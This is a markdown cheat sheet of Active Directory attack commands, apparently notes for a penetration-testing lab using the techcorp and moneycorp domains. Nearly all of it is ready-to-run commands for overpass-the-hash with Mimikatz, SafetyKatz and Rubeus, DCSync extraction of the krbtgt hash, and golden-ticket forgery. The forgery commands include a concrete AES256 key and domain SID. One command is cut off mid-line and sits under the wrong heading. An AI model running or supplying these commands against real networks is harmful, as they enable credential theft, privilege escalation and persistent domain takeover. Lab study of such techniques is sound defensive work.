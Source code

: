 ### OverPass-The-Hash - OPTH
#### OPTH - Invoke-Mimikatz
```powershell
Invoke-Mimikatz -Command '"sekurlsa::pth /user:Administrator /domain:us.techcorp.local /aes256:<aes256key> /run:powershell.exe
```
#### OPTH - SafetyKatz.exe
```powershell
SafetyKatz.exe "sekurlsa::pth /user:administrator /domain:us.techcorp.local /aes256:<aes256keys> /run:cmd.exe" "exit"
```
#### OPTH - Rubeus - Elevation? Not Needed.
```powershell
Rubeus.exe asktgt /user:administrator /rc4:<ntlmhash> /ptt
```
#### OPTH - Rubeus - Elevation? Needed.
```powershell
Rubeus.exe asktgt /user:administrator /aes256:<aes256keys> /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
```

### DCSync
#### DCSync - Invoke-Mimikatz - By default DA Privs Required
```powershell
Invoke-Mimikatz -Command '"lsadump::dcsync /user:us\krbtgt"'
```
#### DCSync - Safetykatz
```powershell
SafetyKatz.exe "lsadump::dcsync /user:us\krbtgt" "exit"
```
__________________

## Persistance
### Golden Ticket
#### Invoke-Mimikatz
```powershell
Invoke-Mimikatz -Command '"lsadump::lsa /patch"' -Computername dcorp-dc
```
#### SafetyKatz.exe
```powershell
C:\AD\Tools\SafetyKatz.exe "lsadump::dcsync /user:dcorp\krbtgt" "exit"
```
Golden Ticket on any machine that has connectivity with DC
```powershell
\BetterSafetyKatz.exe "kerberos::golden /User:Administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-719815819-3726368948-3917688648 /aes256:154cb6624b1d859f7080a6615adc488f09f92843879b3d914cbcb5a8c3cda848 /startoffset:0 /endin:600 /renewmax:10080 /ptt" "exit"
```
#### Rubeus
```powershell
\BetterSafetyKatz.exe "kerberos::golden /User:Administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-719815819-3726368948-3917688648 /aes256:154cb6624b1d859f7080a6615adc488f09f92843879b3d914cbcb5a8c3cda848 /startoffset:0 
```
```powershell
C:\AD\Tools\Rubeus.exe golden /aes256:154CB6624B1D859F7080A6615ADC488F09F92843879B3D914CBCB5A8C3CDA848 /user:Administrator /id:500 /pgid:513 /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-719815819-3726368948-3917688648 /pwdlastset:"11/11/2022 6:33:55 AM" /minpassage:1 /logoncount:2453 /netbios:dcorp /groups:544,512,520,513 /dc:DCORP-DC.dollarcorp.moneycorp.local /uac:NORMAL_ACCOUNT,DONT_EXPIRE_PASSWORD /ptt
```